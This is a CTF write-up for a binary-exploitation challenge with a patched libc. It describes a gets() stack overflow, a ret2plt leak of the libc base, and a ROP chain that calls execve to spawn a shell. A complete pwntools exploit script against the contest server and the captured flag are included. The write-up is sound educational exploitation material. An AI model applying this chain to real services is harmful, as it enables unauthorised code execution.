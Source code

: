 # Patches

The binary comes with a libc and ld. As the title, description and even text of the binary suggests, the libc is patched. I patched the ELF file so that it would always run with this ld and libc, even on my local end.

```
patchelf --set-rpath './' ./patches
patchelf --set-interpreter './ld-2.27.so' ./patches
```

The binary prints some stuff using puts, calls printf("> ") and then calls gets on rbp-0x80.


This creates a buffer overflow. With NX on this time, it'll be a little more difficult. We can execute a classic ret2plt attack, retting into puts@plt(no PIE) to print out puts@got, creating a libc leak. Things are a little harder as the libc is patched. There's no /bin/sh in it, presumably the system doesn't work properly. We talked about this in the Statics and Dynamics writeup from HacktivityCon CTF - with so much code, libc is a ROP gadget gold mine. So once we've used ret2plt to leak the libc base, we can just use ROP to build a chain that uses syscalls to pop a shell.


Note that due to stack alignment we'll need to use a return gadget before returning back into main, and also I chose the instruction at 0x40123c(which is part of main) for convenience.


We can use the pwntools ROP functionality to build a nice and simple ROP chain that reads data into a writeable section, then uses execve(execve(section,NULL,NULL) specifically). Afterwards, we'll send /bin/sh which will get written to said writeable section, thus the total payload will pop a shell.

#### Flag: flag{no_one_gadget_this_time_wait_no_binsh_at_all?}
```py
from pwn import *
NUM_TO_RBP = 0x80
fakestack = 0x404500
padding = b'A'*NUM_TO_RBP + p64(fakestack)
context.arch = 'amd64'
e = ELF("./patches")
libc = e.libc
p = e.process() if args.LOCAL else remote('challenge.ctf.games', 30585)
p.recvuntil('> ')
rop = ROP(e)
#ret2plt libc leak
poprdi = rop.find_gadget(['pop rdi','ret']).address
retgadget = rop.find_gadget(['ret']).address
chain = flat(poprdi, e.got['puts'],e.plt['puts'],retgadget,0x000000000040123c)
pause()
p.sendline(padding + chain)
leak = p.recvline()[:-1].ljust(8,b'\x00')
puts = u64(leak)
log.info(f"Libc leak: {hex(puts)}")
libcbase = puts - libc.symbols['puts']
libc.address = libcbase
log.info(f"Libc base: {hex(libcbase)}")
# Build rop chain to read into RW section, then execve
rop2 = ROP(libc)
rop2.read(0,0x404300,8)
rop2.execve(0x404300,0,0)
payload = padding + rop2.chain()
p.sendline(payload)
p.send(b'/bin/sh\x00')
p.interactive()
```
